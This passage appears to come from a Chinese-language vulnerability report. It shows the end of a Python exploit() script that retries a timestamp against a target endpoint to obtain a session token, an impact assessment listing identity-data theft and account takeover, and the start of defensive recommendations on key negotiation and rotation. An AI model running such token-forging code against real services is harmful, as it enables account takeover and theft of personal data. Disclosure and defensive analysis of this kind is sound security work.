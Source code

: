 ```
        &#34;timestamp&#34;: timestamp
    }
    
    # 发送请求
    response = requests.post(TARGET_URL, json=payload, headers=HEADERS)
    
    # 时间戳修正循环
    while&#34;invalid timestamp&#34;in response.text.lower():
        timestamp += 1000# 毫秒级微调
        payload[&#34;timestamp&#34;] = timestamp
        response = requests.post(TARGET_URL, json=payload, headers=HEADERS)
    
    return response.json()

if __name__ == &#34;__main__&#34;:
    session = exploit()
    print(&#34;Session Token:&#34;, session.get(&#34;token&#34;))

```

## 四、漏洞危害评估  
### （一）攻击面分析  
1. **数据窃取链路**  
  
1. 用户实名信息（姓名/身份证号）  
  
1. 微信绑定手机号  
  
1. 设备硬件特征码  
  
1. 通过
```
encryptedData
```

  
可解析出：  
  
1. **业务风险场景**  
  
1. 绕过风控策略批量注册虚假账号  
  
1. 操纵高价值账户进行非法转账  
  
1. 结合短信嗅探实现完整账户接管  
  
## 五、防御体系重构建议  
### （一）加密机制升级  
1. **密钥管理体系**  
  
1. 采用ECDH密钥协商协议动态生成session_key  
  
1. 实现密钥轮转机制（每7天更换）  
  